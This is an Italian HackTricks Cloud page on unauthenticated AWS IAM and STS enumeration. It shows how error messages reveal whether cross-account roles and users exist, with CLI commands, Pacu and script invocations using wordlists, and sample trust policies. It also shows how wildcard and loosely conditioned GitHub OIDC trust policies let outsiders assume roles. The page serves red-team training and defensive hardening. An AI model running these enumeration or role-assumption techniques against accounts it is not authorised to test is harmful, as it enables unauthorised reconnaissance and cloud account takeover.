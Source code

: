 # AWS - Enumerazione IAM & STS non autenticata

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di Github.

</details>
{% endhint %}

## Elenca Ruoli e Nomi utente in un account

### ~~Forza Bruta Assume Role~~

{% hint style="danger" %}
**Questa tecnica non funziona** più poiché, che il ruolo esista o meno, si riceve sempre questo errore:

`Si è verificato un errore (AccessDenied) durante la chiamata all'operazione AssumeRole: L'utente: arn:aws:iam::947247140022:user/testenv non è autorizzato a eseguire: sts:AssumeRole sulla risorsa: arn:aws:iam::429217632764:role/account-balanceasdas`

Puoi **testare questo eseguendo**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Tentare di **assumere un ruolo senza le autorizzazioni necessarie** attiva un messaggio di errore da parte di AWS. Ad esempio, se non autorizzato, AWS potrebbe restituire:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Questo messaggio conferma l'esistenza del ruolo ma indica che la sua policy di assume role non permette la tua assunzione. Al contrario, provare ad **assumere un ruolo inesistente porta a un errore diverso**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessantemente, questo metodo di **differenziare tra ruoli esistenti e non esistenti** è applicabile anche tra diversi account AWS. Con un ID account AWS valido e una lista di parole mirate, è possibile enumerare i ruoli presenti nell'account senza incontrare limitazioni inherent.

Puoi utilizzare questo [script per enumerare i principali potenziali](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) sfruttando questo problema.

### Politiche di Fiducia: Forza Bruta sui ruoli e gli utenti tra account

Configurare o aggiornare una **politica di fiducia di un ruolo IAM implica definire quali risorse o servizi AWS sono autorizzati ad assumere quel ruolo** e ottenere credenziali temporanee. Se la risorsa specificata nella politica **esiste**, la politica di fiducia viene salvata **con successo**. Tuttavia, se la risorsa **non esiste**, viene generato un **errore**, indicando che è stato fornito un principale non valido.

{% hint style="warning" %}
Nota che in quella risorsa potresti specificare un ruolo o un utente tra account:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Questo è un esempio di politica:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Questo è l'**errore** che troverai se utilizzi un **ruolo che non esiste**. Se il ruolo **esiste**, la policy verrà **salvata** senza errori. (L'errore è per l'aggiornamento, ma funziona anche durante la creazione)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Puoi automatizzare questo processo con [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Il nostro utilizzo di [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Il ruolo `admin` utilizzato nell'esempio è un **ruolo nel tuo account da impersonare** da pacu per creare le policy necessarie per l'enumerazione

### Privesc

Nel caso in cui il ruolo fosse configurato male e permetta a chiunque di assumerlo:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Il malintenzionato potrebbe semplicemente supporlo.

## Federazione OIDC di terze parti

Immagina di riuscire a leggere un **flusso di lavoro di Github Actions** che sta accedendo a un **ruolo** all'interno di **AWS**.\
Questa fiducia potrebbe dare accesso a un ruolo con la seguente **politica di trust**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Questo trust policy potrebbe essere corretto, ma la **mancanza di ulteriori condizioni** dovrebbe farti diffidare.\
Questo perché il ruolo precedente può essere assunto da **CHIUNQUE da Github Actions**! Dovresti specificare nelle condizioni anche altre informazioni come il nome dell'organizzazione, il nome del repository, l'ambiente, il ramo...

Un'altra potenziale errata configurazione è **aggiungere una condizione** come la seguente:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Nota che il **jolly** (\*) prima dei due punti (:). Puoi creare un'organizzazione come **org\_name1** e **assumere il ruolo** da un'azione Github.

## Riferimenti

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
